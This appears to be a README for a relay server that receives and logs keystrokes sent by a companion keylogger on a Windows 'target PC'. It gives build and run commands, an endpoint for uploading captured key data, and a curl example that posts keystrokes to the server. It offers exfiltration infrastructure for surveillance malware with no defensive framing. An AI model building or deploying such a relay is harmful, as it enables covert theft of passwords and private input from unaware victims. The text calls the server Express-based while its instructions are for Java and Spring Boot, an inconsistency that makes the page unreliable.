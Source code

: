 # Aetriks Relay Server

The Aetriks Relay Server is a lightweight Express-based server designed to receive and log keystroke data from the Aetriks Keylogger running on a Windows target PC.

---

## Features

- POST /api/keystrokes for logging key data

- GET / for viewing formatted keystroke logs

## Prerequisites
- Java 17 or higher (java -version)

- Maven, or use the provided Maven Wrapper (./mvnw)

### Installation & Running

- Clone the repository

``` bash
git clone <repo-url>  
cd aetriks-relay-java  
```

- Build and run
``` bash
mvn clean install  
mvn spring-boot:run  
```
- Or using the Maven Wrapper:
```bash
./mvnw clean install  
./mvnw spring-boot:run  
```
- Run the packaged application
```bash
java -jar target/aetriks-relay-java-1.0.0.jar  
```
- Override default port (e.g. 9090):
```bash
java -jar target/*.jar --server.port=9090  
```

- Usage
Log keystrokes

```bash
curl -X POST http://hostip:8080/api/keystrokes \
  -H "Content-Type: application/json" \
  -d '{"keyboardData":"your keystrokes here"}'
```

- View logs
Open in browser or use:

```bash
curl http://hostip:8080/
```
- Monitor keystroke file
```bash
tail -f keyboard_capture.txt
```
---
